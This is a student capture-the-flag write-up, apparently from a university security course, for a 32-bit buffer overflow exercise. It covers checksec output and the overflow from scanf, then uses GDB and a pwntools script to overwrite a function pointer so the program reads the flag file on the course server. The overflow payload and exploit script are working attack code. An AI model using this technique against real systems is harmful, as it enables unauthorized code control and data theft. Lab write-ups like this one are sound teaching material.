






# CTF Week #5 (Buffer Overflow)

## Exploring

First, we run `checksec program` to find if it has any countermeasures.

<p align="center" justify="center">
  
</p>

From the output, we understand that:
* The architecture is x86 with a 32-bit address space.
* There is no protection on the return address (no stack canary).
* The NX (No eXecute) bit is disabled, meaning we can execute code on the stack.
* The program is not compiled as Position-Independent Executable (PIE). <!-- precisa de esplicar isso? -->
* There are segments with both Read, Write, and Execute (RWX) permissions.

## Code Analysis

1. The program has a function `readtxt(char* name)` that takes a file name as input and reads it using the `cat` command. The filename, without the extension, should be fewer than 6 characters.
2. If we can set the parameter `name` in the `readtxt` function and invoke it by modifying the `fun` function pointer, we will be able to get the flag.
3. There is a buffer overflow vulnerability in the code:
    * On line 18, a buffer is defined with a size of 32 bytes: `char buffer[32];`.
    * On line 26, the program uses `scanf("%45s", &buffer);`, which reads up to 45 bytes from standard input into the buffer, allowing for a potential overflow.

## Attack

The strategy was to overwrite the `fun` function pointer to point to `readtxt` and set the parameter to "`flag`".

### Step 1: Locate the `fun` Pointer

First, we run GDB and found addresses of `readtxt` and `echo` functions:

<p align="center" justify="center">
  
</p>

* The address of `readtxt` is `0x080497a5` 
* The address of `echo` is `0x080497e3`

Then, we set a breakpoint at line 23, where the `fun` pointer is assigned, and examine the first 45 bytes of the `buffer` (as we can manipulate them using the buffer overflow):

<p align="center" justify="center">
  
</p>

We observed that at stack address `0xffffd040`, the first 4 bytes were changing between the addresses of `readtxt` (`0x080497a5`) and `echo` (`0x080497e3`). This confirmed that the memory location corresponds to the fun variable.

### Step 2: Setting the Parameter to `"flag"`

To exploit the vulnerability, we will set the `fun` function pointer to `readtxt` using the payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08` with 32 bytes and address of `readtxt`
> Note: address of `readtxt` - `0x080497a5` is written as `\xa5\x97\x04\x08` in little-endian format.

After running the payload, we got the following output:

<p align="center" justify="center">
  
</p>

The program attempted to open a file named `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'$'\245\227\004\b` so we can set first bytes to string `flag` and use `\0` to mark the end of the string.

With this payload, we successfully retrieved the flag:

<p align="center" justify="center">
  
</p>

## Submit on server

As a last step we needed to uncomment line 5 to use with a server.

The final version of `exploit-template.py` is:
```py
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 40964)

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08" 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

When running the exploit, we obtained the flag:

<p align="center" justify="center">
  
</p>
